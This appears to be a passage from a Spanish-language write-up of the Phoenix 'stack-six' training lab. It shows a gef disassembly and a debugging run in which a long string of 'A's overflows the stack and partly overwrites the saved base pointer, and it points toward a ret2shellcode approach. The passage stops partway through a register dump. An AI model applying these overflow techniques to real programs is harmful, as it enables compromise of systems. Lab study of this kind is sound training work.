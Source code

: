 ```csharp
gef➤  disass main
Dump of assembler code for function main:
   0x000000000040079b <+0>:	push   rbp
   0x000000000040079c <+1>:	mov    rbp,rsp
   0x000000000040079f <+4>:	sub    rsp,0x20
   0x00000000004007a3 <+8>:	mov    DWORD PTR [rbp-0x14],edi
   0x00000000004007a6 <+11>:	mov    QWORD PTR [rbp-0x20],rsi
   0x00000000004007aa <+15>:	mov    edi,0x400878
   0x00000000004007af <+20>:	call   0x400530 <puts@plt>
   0x00000000004007b4 <+25>:	mov    edi,0x4008c2
   0x00000000004007b9 <+30>:	call   0x400520 <getenv@plt>
   0x00000000004007be <+35>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004007c2 <+39>:	cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004007c7 <+44>:	jne    0x4007dd <main+66>
   0x00000000004007c9 <+46>:	mov    esi,0x4008d8
   0x00000000004007ce <+51>:	mov    edi,0x1
   0x00000000004007d3 <+56>:	mov    eax,0x0
   0x00000000004007d8 <+61>:	call   0x400540 <errx@plt>
   0x00000000004007dd <+66>:	mov    rax,QWORD PTR [rbp-0x8]
   0x00000000004007e1 <+70>:	mov    rdi,rax
   0x00000000004007e4 <+73>:	call   0x4006fd <greet>
   0x00000000004007e9 <+78>:	mov    rdi,rax
   0x00000000004007ec <+81>:	call   0x400530 <puts@plt>
   0x00000000004007f1 <+86>:	mov    eax,0x0
   0x00000000004007f6 <+91>:	leave  
   0x00000000004007f7 <+92>:	ret    
End of assembler dump.
gef➤  b *0x00000000004007f6
Breakpoint 1 at 0x4007f6
gef➤ 
```

Se ejecuta el binario con `r` y para en el **breakpoint en la instrucción `leave`**, se observa el estado de los registros y la pila:

- `$rbp = 0x7fffffffe541` → corresponde al **saved RBP** que fue sobrescrito parcialmente con `'A'`.
- `[rbp+8] = 0x4007f6`→ contiene el **saved RIP original**, que apunta a la instrucción siguiente al `call greet`.
- El **payload** con las `'A'` se encuentra ya en la pila, en `0x00007fffffffe5e8`, confirmando que la entrada del entorno fue copiada exitosamente.

Esto confirma lo siguiente:

1. El **overflow alcanzó y corrompió el saved RBP**, evidenciado por el valor `0x7fffffffe541`.
2. Todavía no se ha sobrescrito el saved RIP, pero estamos a solo **1 byte de lograrlo**.
3. El payload ya está en memoria (`0x7fffffffef10`), lo que abre la posibilidad de usarlo como shellcode o como referencia en un **ret2payload / ret2shellcode**.

```csharp
gef➤  r
Starting program: /opt/phoenix/amd64/stack-six 
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Welcome, I am pleased to meet you AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����

Breakpoint 1, 0x00000000004007f6 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x4141414141414141 ("AAAAAAAA"?)
$rcx   : 0x00007ffff7db6d07  →  <__stdio_write+83> mov rdi, rax
$rdx   : 0x0               
```